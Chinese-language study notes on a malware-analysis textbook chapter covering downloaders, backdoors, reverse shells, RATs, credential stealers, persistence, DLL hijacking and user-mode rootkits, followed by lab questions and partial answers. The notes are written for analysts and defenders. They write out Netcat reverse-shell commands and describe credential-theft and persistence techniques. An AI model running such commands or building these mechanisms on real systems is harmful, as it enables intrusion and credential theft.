# 第十一章 恶意代码的行为
熟悉恶意代码的行为。
## 下载器和启动器
常见的两种恶意代码是下载器和启动器。下载器从互联网上下载其他的恶意代码，然后在本地系统中运行。下载器通常会与漏洞利用（exploit）打包在一起。下载器常用Windows API函数URLDownloadtoFileA和WinExec，来下载并运行新的恶意代码。

启动器（也称为加载器）是一类可执行文件，用来安装立即运行或者将来秘密执行的恶意代码。启动器通常包含一个它要加载的恶意代码。
## 后门（backdoor）
后门（backdoor）是另一种类型的恶意代码，它能让攻击者远程访问一个受害的机器。后门是一种最常见的恶意代码，它们拥有多种功能，并且以多种形式与大小存在。后门代码往往实现了全套功能，所以当使用一个后门时，攻击者通常不需要下载额外的恶意代码。

后门程序利用互联网的通信方式是多样的，但是一个常用的方法是利用80端口使用HTTP协议。
HTTP是出站流量最常使用的协议，所以它为恶意代码提供了一个与其他流量混淆的好机会。

后门拥有一套通用的功能，例如操作注册表、列举窗口、创建目录、搜索文件，等等。查看后门使用和导入的Windows函数，可以确定后门程序实现的功能。

## 反向shell
反向shell是从被感染机器上发起一个连接，它提供攻击者shell访问被感染机器的权限。反向shel或者作为一个单独的恶意代码存在，或者作为一个复杂后门程序中的组件而存在。在反向shell中，攻击者能够如同在本地系统上一样运行命令。

**Netcat反向shell**
可以通过在两台机器上运行Netcat，来创建一个反向shell。同时，攻击者已经知道在恶意代码中使用Netcat，或者和其他恶意程序一起打包使用。

Netcat被作为一个反向shell使用时，远程机器使用下列命令，等待入站连接。
```
nc -l -p 80
```
-1选项设置Netcat为监听模式，-p用来设置监听端口。接下来，受害机器向外连出，并且使用下列命令提供shell。
```
nc 1istener_ip 80 -e cmd.exe
```
Listener_ip 80是远程机器的IP地址和端口。-e选项用来指定连接建立后要运行的程序，并将这一程序标准输入和输出与套接字进行绑定。

**Windows反向shell**
使用cmd.exe作为Windows系统中的反向shell，有两种简单的恶意编码实现：基础方法和多线程技术。

基础方法在恶意代码编写者之间比较流行，因为它容易编写，且效果与多线程技术一致。它涉及CreateProcess函数的调用，并操纵传递给CreateProcess的STARTUPINFO结构。首先，创建一个套接字，并与远程服务器建立连接。然后，绑定这个套接字与cmd.exe标准流（标准输入、标准输出以及标准错误）。**调用CreateProcess函数用隐藏窗口的方式创建cmd.exe程序，对受害者隐藏cmd.exe进程。**

Windows反向shell的多线程版本涉及一个套接字、两个管道及两个线程的创建（查询API调用函数CreateThread、CreatePipe）。恶意代码有时将这种方法作为策略，来篡改或编码经过一个套接字传入或传出的数据。CreatePipe用来绑定一个管道的读写端，如标准输入（stdin）和标准输出（stdout）。CreateProcess方法用来绑定一个管道与标准流，而不是直接与套接字绑定。调用CreateProcess方法，恶意代码会产生两个线程：一个用来从标准输入管道读数据，并且向套接字写数据，另外一个用来从一个套接字读数据，并且向一个标准输出管道写数据。通常这两个线程使用数据编码来篡改数据。

## 远程控制工具
远程控制工具（RAT）被用来远程管理一台或多台计算机。远程控制工具经常为了特定目标，如窃取信息或者旁路一个网络执行针对性的攻击。

服务器端运行在一个被植入恶意代码的受害主机上。客户端作为攻击者远程操纵运行命令和控制的单元。服务器端命令客户端开始一个连接，同时它们也被客户端控制。远程控制工具通常通过如80、443等常用的端口通信。
远程控制工具的网络结构：


```
Poison lvy（ http://www.poisonivy-rat.com/ ）（http://www.primalsecurity.net/poison-ivy-remote-access-tool-rat/ ）是一个免费提供且流行的远程控制工具。它的功能由shellcode插件控制，这使得它具有良好的扩展性。Poison Ivy是一款有用的工具，它能够快速生成用来测试和分析的恶意样本。
```

## 僵尸网络
僵尸网络是被感染主机（也称为僵尸主机）的一个集合。它们由单一实体控制，通常由一个称为僵尸控制器的机器作为服务器。僵尸网络的目标是尽可能多地感染机器，来构建一个更大的僵尸主机网络，从而使僵尸网络传播其他的恶意代码或蠕虫，或者执行分布式拒绝服务（DDoS）攻击。

在实施分布式拒绝服务攻击时，所有僵尸主机会在同一时刻访问同一个站点，僵尸网络能够让这个站点挂掉。

## 远程控制工具与僵尸网络的比较
在远程控制工具与僵尸网络之间有一些不同

* 僵尸网络感染和控制数以百万计的主机。远程控制工具通常只控制很少数量的主机。
* 僵尸网络中的所有主机在同一时刻被控制，而远程控制工具是以每个受害者为单位进行远程控制，因为远程控制工具要求攻击者与受害主机之间更紧密地交互。
* 远程控制工具被用来执行针对性的攻击，而僵尸网络用来进行大规模攻击。

## 登录凭证窃密器
攻击者经常会不遗余力地去窃取登录凭证，他们主要使用以下三种类型的恶意代码

* 等待用户登录以窃取登录凭证的程序。
* 转储Windows系统中存放信息的程序，例如密码哈希值，程序直接使用它，或者对它进行离线破解。
* 击键记录程序。

### GINA拦截
在WindowsXP系统中，恶意代码使用微软图形识别和验证界面（GINA）拦截技术来窃取用户的登录凭证。GINA的设计目的是让合法第三方通过添加一些代码，来自定义登录过程，如用硬件无线射频标识（RFID）令牌或者智能卡来进行身份认证等。恶意代码编写者利用GINA对第三方的支持来加载窃密器。

GINA在msgna.dll中实现，这个DLL在用户登录系统过程中由Winlogon可执行文件加载。Winlogon也为第三方定制实现DLL程序工作，在Winlogon与GINADLL之间加载第三方DLL（类似于中间人攻击）。为了方便，Windows用下列注册表项，来存储需要Winlogon加载的第三方DLL。
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon\GinaDLL
值得注意的是，如果你分析的dll有很多导出函数都有前缀`Wlx`，那么这个样本很有可能是一个GINA拦截器。

## 口令哈希转储
转储Windows口令哈希是恶意代码获取系统登录凭证的一种流行方法。攻击者试图抓取这些口令哈希，以便离线暴力破解，或者利用它们执行Pass-the-Hash攻击。Pass-the-Hash攻击在无须破解或解密口令哈希以获取明文密码的情况下，使用LM或者NTLM哈希来通过远程主机的身份验证，从而获得访问权。

Pwdump和Pass-the-Hash（PSH）工具包是提供口令哈希转储免费可用的软件包。因为这两种工具都开源，很多恶意代码都派生于它们的源码。因为多数反病毒软件都拥有它们标准版本的特征码，所以通常情况下，攻击者要逃避探测就会编译他们的专有版本。

pwdump是一个程序集合，它从安全账户管理器（SAM）输出本地用户账户的LM和NTLM口令哈希。pwdump通过注入DLL到本地安全认证子系统服务（LSASS）进程进行攻击。我们将在第12章深入讨论DLL注入技术。现在，我们仅需要了解DLL注入是恶意代码在另外一个进程中运行DLL的一种方法，因此它提供了DLL与被注入进程相同的权限。口令哈希转储工具通常针对lsass.exe进程，因为它拥有足够的权限来访问很多有用的API函数。

标准pwdump程序使用的DLL是lsaext.dll，一旦DLL在lsass.exe中运行，pwdump就会调用GetHash，这个函数由lsaext.dll导出，目的是执行口令哈希提取。提取函数会使用未文档化的Windows函数，来枚举系统中的用户，并且获得每个用户未解密的口令哈希。

处理pwdump程序变种时，你需要分析DLL，以便确定它如何执行口令哈希转储操作。首先查看DLL的导出函数，pwdump默认的导出函数是GetHash，但是攻击者可以很容易地修改这个导出函数的名字，使它不那么显而易见。接下来，尝试确定导出函数使用的API函数。因为多数API函数需要动态解析，所以口令哈希转储导出函数通常会多次调用GetProcAddress。


## 击键记录
击键记录是一种传统形式的窃取登录凭证方法。当击键记录开启时，恶意代码能够记录用户击键操作，从而让攻击者能够观察到用户敲入的数据，如用户名、密码。Windows平台上的恶意代码使用多种形式的击键记录。
### 基于内核的击键记录器
用户模式下的应用程序很难探测到基于内核的击键记录器。它们经常作为Rootkit的一部分并且它们作为一个键盘驱动绕过用户空间应用程序和保护，来捕获击键操作。

### 用户空间的击键记录器
Windows用户空间的击键记录器通常使用WindowsAPI并且常通过挂钩（hook）或者轮询来实现。

挂钩在键盘每次按下时用Windows API通知恶意代码，通常使用SetwindowsHookEx安装挂钩。轮询使用Windows API不断地轮询按键的状态，它通常使用函数GetAsyncKeyState和GetForegroundWindow。

挂钩击键记录器使用的WindowsAPl函数是SetwindowsHookEx。这种类型的恶意代码可能被打包成一个初始化挂钩函数的可执行文件，它也可能包含一个处理击键记录的DLL文件，这个DLL文件被自动地映射到系统的多个进程中。

GetAsynckeyState函数用来识别一个按键是被按下还是被弹起，是否是在最近一次GetAsyncKeyState函数被调用后按下。GetForegroundWindow函数识别当前聚焦的前端窗口，它告诉击键记录器当前哪个应用程序正在执行输入（例如Notepad、Internet Explorer）。


上述循环结构的反汇编代码如下。


在进入内部循环之前程序调用了GetForegroundwindow函数。内部循环开始后，立即使用GetKeyState检查Shift键的状态，函数GetKeyState是快速检查按键状态的方法，与GetAsyncKeyState一样，它不能记住在它被调用后，按键是否被按下。接下来，击键记录器用EBX来索引键盘上的按键数组。如果一个新的按键被按下，击键记录器在调用GetkeyState查看CapsLock是否被激活之后，记录击键。最后，递增EBX确保代码清单中的下一个按键被检查。一旦检查了92个（368/4）按键，内部循环就结束了，再次调用GetForegroundwindow进入新的内部循环。

### 通过字符串列表识别击键记录器
可以通过查看恶意代码的导入API来识别击键记录器的功能。也可以通过检查标志字符串列表来识别击键记录器的功能，对于使用导入函数混淆技术或者使用你未见过的击键记录器功能的恶意代码来说，这种技术特别有用。查看字符串即可，字符串你列表中可能会有以下的string。这些表示键盘按键的字符串交叉引用的地方值得注意。
```
[UP]
[NUM Lock]
[Right]
```
## 存活机制
一旦恶意代码获取系统的控制权，它通常就会在系统中驻留很长一段时间，恶意代码的这种行为被称为存活。如果存活机制足够特别，它甚至能作为给定恶意代码的指纹。


### Windows注册表
一些工具可以帮助你搜索恶意代码在注册表中的存活位置，
* Sysintermals的自动化程序，它可以帮你找出系统中所有的自动启动程序。
* ProcMon这样的工具可以帮助你在执行基本的动态分析时，监控系统中的所有注册表修改。

**AppInit_DLL**
恶意代码编写者可以通过一个名为AppInit DLL特殊注册表项来让他们的DLL获得加载。AppInit_DLL中的DLL程序会在进程加载User32.dl时被加载。插入DLL路径到注册表Applnit_DLL，会让DLL程序获得加载机会。

AppInit_DLL的值存储在如下Windows注册表键中
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
Applnit_DLL值的类型是REG_SZ，它由空格分隔的字符串组成。很多进程都会加载User32.dll，这些进程也会加载Applnit DLL。恶意代码编写者通常只针对一个单独进程，但是AppInit DLL会被加载到多个进程中。因此，恶意代码编写者执行攻击负载（playload）前必须检查它运行在哪个进程中。这种检查通常在恶意DLL程序的DLLMain函数中完成。

**Winlogon Notify**

恶意代码编写者可以挂钩一个特殊的Winlogon事件，如登录、注销、关机以及锁屏，等等。这甚至可以允许恶意代码在安全模式下加载。下面注册表键中的注册表项包含Notify的值。
HKEY_LOCAL_MACHINE\SOFTWARE\MicroSoft\Windows NT\CurrentVersion\Winlogon\
当winlogon.exe产生一个事件时，Windows系统会检查Notify注册表键来查找处理这个事件的DLL程序。

**SvcHost DLL**

所有服务都存在于注册表中，如果一个服务的注册表键被移除，则这个服务将不能启动。恶意代码经常作为一个服务安装，但是更多的时候作为一个可执行文件使用。安装的恶意代码作为swchost.exe的DLL来存活，这使得恶意代码可以与其他进程混淆，且更像标准的服务。

svchost.exe是从动态链接库中运行服务的通用主机进程，Windows操作系统通常同一时刻运行多个svchost.exe实例。每个实例包含一组服务，这些服务能够使开发、测试以及服务组管理变得更简单。

这些组被定义在下列的注册表位置（每个值代表一个不同的组）
HKEY_LOCAL_MACHINE\SOFTWARE\MicroSoft\Windows NT\CurrentVersion\Svchost

服务被定义在下列的注册表位置
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ServiceName

Windows服务包含多个注册表值，其中多数提供关于服务的信息。例如DisplayName和Description。恶意代码编写者通常会设置有助于恶意代码混淆的值，例如NetWareMan，它提供访问文件和打印NetWare网络资源的服务。另外一个注册表值为ImagePath，它包含服务可执行文件的位置。以svuchost.exe DLL为例，这个注册表值包含%SystemRoot%/System32/svchost.exe -k GroupName。

所有的svchost.exe DLL包含拥有ServiceDLL值的Parameters键，这是恶意代码编写者设置恶意DLL程序的位置，Parameters键下另一个值start用来确定服务何时启动（恶意代码通常设置为系统引导时启动）。

Windows拥有很多预先定义的服务组，所以恶意代码通常不会创建一个新的服务组，因为新创建的服务组很容易被探测。相反，多数恶意代码会将其加入一个已经存在的组或者覆盖一个无关紧要的服务——经常使用netsvcs服务组中很少使用的服务。要识别这种技术，使用动态分析监视Windows的注册表，或者在反汇编中查找CreateServiceA函数。如果恶意代码修改这些注册表键，你就会知道它们使用了这种存活技术。

### 特洛伊木马化（Trojanized）系统二进制文件

利用这种技术，恶意代码能够修改系统的二进制文件，当被感染的二进制文件下次运行或者加载时，将会强制运行恶意代码。恶意代码编写者主要针对Windows系统正常操作时最常使用的二进制文件，而DLL是恶意代码编写者欢迎的目标。

恶意代码通常修改一个系统文件的函数入口点，使它跳转到恶意代码。这些修改补丁覆盖函数的开始代码或者覆盖其他一些并不影响特洛伊木马化DLL正常操作的代码。为了不影响二进制文件的正常操作，恶意的代码被加入到可执行文件的一个空节中。插入的代码通常用来加载恶意代码，插入的函数并不关心它被插入到被感染的DLL的何处。加载恶意代码后，为了让DLL的操作与插入前的代码一致，代码会跳转回原始的DLL程序。

检查一个受感染的系统时，我们会注意到系统的二进制文件rutils.dll没有预想的MD5哈希值，所以我们进一步调查。我们将可疑版本的rtutils.dll与干净版本的rutils.dll一同加载到IDAPro。比较它们的D11EntryPoint函数。不同之处十分明显：特洛伊木马化版本的rtutits.dl会跳转到其他位置。



下面展示了一个恶意的补丁软件插入一个DLL中。



`pusha`操作保存寄存器状态，恶意代码结束后使用`popa`恢复寄存器状态。`2`处的popa之后的三条指令和未感染的`rtutils.dll`中函数`DLLEntrypoint`开头的指令相同。之后的`jmp loc_76E81BB2`就是原始的`DLLEntrypoint`函数。

### DLL加载顺序劫持

DLL加载顺序劫持是一种简单隐蔽的技术，它允许恶意代码编写者在不使用注册表项或者特洛伊二进制文件的前提下创建一个存活的、恶意的DLL程序。这种技术甚至不需要单独的恶意加载器，因为它有能力让Windows加载它。

ATT&CK矩阵：https://attack.mitre.org/techniques/T1574/001/


**在WindowsXP上加载DLL的默认搜索顺序**

* 加载应用程序的目录。

* 当前目录。

* 系统目录（使用GetsystemDirectory函数获取的路径，例如…/Windows/System32）。

* 16位子系统的系统目录（例如.…/Windows/System）。

* Windows目录（使用GetwindowsDirectory获取的路径，例如.…/Windows）。

* PATH环境变量里列出的目录。

在WindowsXP系统中，利用KnownDLL注册表键可以跳过DLL的加载过程，这个注册表键保护一些特定的DLL位置列表，这些DLL通常位于…/Windows/System32/目录下。设计KnownDLL机制的目的是改善安全（恶意的DLL不能放到加载顺序的前面）和速度（Windows不需要默认搜索前面的列表），但是它仅包含一个较短的重要DLL列表。

DLL加载顺序劫持可以被/System32之外目录中的二进制文件利用，来加载/System32目录中未被KnownDLL保护的DLL程序。例如，/Windows目录下explorer.exe会加载/System32目录下的ntshrui.dll。由于ntshrui.dll并不是一个KnownDLL，所以遵循默认搜索顺序，另外，/Windows目录在/System32目录之前被搜索。如果恶意的DLL被命名为ntshrui.dll并放到/Windows目录，则它将被加载到合法DLL的位置。为了让系统正常运行，恶意DLL程序随后再加载真正的DLL。

/System32目录之外的二进制文件都容易受到这种攻击，其中explorer.exe约有50个易受攻击的DLL。此外，由于DLL递归导入的原因，很多DLL会加载其他的DLL，而这些DLL按照默认顺序加载，因此KnownDLL机制也不能得到充分的保护。

**KnownDLLs在注册表中的路径如下：**

```
计算机\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
```



#### 缓解措施

* 禁止加载远程 DLL。这默认包含在 Windows Server 2012+ 中，可通过 XP+ 和 Server 2003+ 的补丁获得。
* 启用安全 DLL 搜索模式以强制在具有更大限制的目录（例如`%SYSTEMROOT%`）中搜索系统 DLL，以便在本地目录 DLL（例如用户的主目录）之前使用
* 启用安全搜索模式，默认开启
* KnownDLLs机制


## 提权

多数提权攻击是利用本地系统已知漏洞或者0day漏洞进行攻击，其中多数可以在Metasploit Framework中找到（http://www.metasploit.com/ ）。甚至，DLL加载顺序劫持也可以被用来执行特权操作。如果恶意DLL所在的目录是用户可写的，并且加载这个DLL的进程在一个高特权级上运行，那么恶意DLL就获得了提权。拥有提权操作的恶意代码比较罕见，但是分析人员应该能识别常见的提权方法。

有时，甚至当用户以本地管理员运行时，恶意代码还会要求提权。运行在Windows系统中的进程或者运行在用户级别，或者运行在系统级别。通常用户不能操纵系统级别的进程，即使他们是管理员。

### 使用SeDebugPrivilege

以用户权限运行的进程并没有任意访问系统一切资源的权限，也不能拥有这种权限。例如在远程进程中调用类似于TerminateProcess和CreateRemoteThread函数。恶意代码获得访问这些函数的权限的唯一方法是通过设置访问令牌的权限来开启SeDebugPrivilege.在Windows系统中，访问令牌（access token）是一个包含进程安全描述符的对象。安全描述符用来指定拥有者的访问权限。

SeDebugPrivilege特权作为一个系统级别调试的工具被创建，但是恶意代码编写者用它来获取系统进程拥有的所有权限。默认情况下，SeDebugPrivilege只赋给本地管理员账户，基本可以认为赋予用户SeDebugPrivilege权限就等于给予他们本地系统账户权限。普通的用户账号不能给自身赋予SeDebugPrivilege权限，它的这种请求会被拒绝。

## 隐藏它的踪迹——用户态的Rootkit

恶意代码经常不遗余力地对用户隐藏它的生存机制和正在运行的进程。常用来隐藏恶意代码行为的工具被称为Rootkit。

Rootkit有多种存在形式，但是大部分Rootkt通过修改操作系统内部的功能来工作。这种修改可以使恶意代码的文件、进程、网络连接以及其他资源对其他程序隐藏，这也使得反病毒产品、管理员以及安全分析人员难以发现它们的恶意活动。

一些Rootkt会修改用户态的应用程序，但大部分会修改内核，因为保护机制（例如入侵防护系统）都运行在内核层。当它们运行在内核层而不是用户层时，Rootkit和入侵防御机制都很有效。在内核层，Rootkit比在用户层更容易破坏操作系统。

处理用户态安装挂钩Rootkit的一种较好策略是：先确定挂钩的位置，然后找出挂钩都干了什么。

###  IAT Hook

IAT Hook是用户空间中一种经典的Rootkit方法，它隐藏本地系统中的文件、进程以及网络连接。这种挂钩方法修改导入地址表（IAT）或者导出地址表（EAT）。

IAT Hook是一种过时且容易探测的挂钩方式，因此现代的Rootkit都使用更高级的inline Hook方法代替。

### Inline Hook

nline Hook是通过覆盖导入DLL中APl函数的代码来实现的，所以它必须等到DLL被加载后才能执行。IAT Hook只简单地修改函数指针，但Inline Hook将修改实际的函数代码。

恶意Rootkit通常用一个跳转指令替换函数的开始代码来执行Inline Hook，这个跳转指令使Rootkit插入的恶意代码获取执行。另外，Rootkit还可以通过改变函数的代码来破坏它或者改变它，而不是跳转到恶意代码。

## 实验部分

### Q

**实验一：Lab11-1 分析恶意代码Lab11-01.exe**

1.这个恶意代码向磁盘释放了什么?

2.这个恶意代码如何进行驻留?

3.这个恶意代码如何窃取用户登录凭证?

4.这个恶意代码对窃取的证书做了什么处理?

5.如何在你的测试环境让这个恶意代码获得用户登录凭证?


**实验二：分析恶意代码Lab11-02.dIl。假设-一个 名为Labl 1-02.ini的可疑文件与这个恶意代码一同被发现。**

1.这个恶意DLL导出了什么?

2.使用rundll32.exe安装这个恶意代码后，发生了什么?

3.为了使这个恶意代码正确安装，Lab11-02.ini必须放置在何处?

4.这个安装的恶意代码如何驻留?

5.这个恶意代码采用的用户态Rootkit 技术是什么?

6.挂钩代码做了什么?

7.哪个或者哪些进程执行这个恶意攻击，为什么?

8.ini文件的意义是什么?

9.你怎样用Wireshark动态抓获这个恶意代码的行为?


**实验三：分析恶意代码Lab11-03.exe和Lab1 1-03.dl。确保这两个文件在分析时位于同一一个目录中。**

1.使用基础的静态分析过程，你可以发现什么有趣的线索?

2.当运行这个恶意代码时，发生了什么?

3Labl1-03.exe 如何安装Lab11-03.dll使其长期驻留?

4.这个恶意代码感染Windows系统的哪个文件?

5.Lab11-03.dll做了什么?

6.这个恶意代码将收集的数据存放在何处?

### A

1.1 查看strings，有`GinaDLL`等信息，怀疑这是一个拦截GINA的恶意代码。



使用`PEView`打开文件，查看资源节,TGAD中含有PE文件，跟进`sub_401080`函数。





可以看到是将资源提取并返回，使用`GetModuleFileNameA`获取当前全路径并和`\msgina32.dll`拼接，继续跟进`sub_401000`函数。



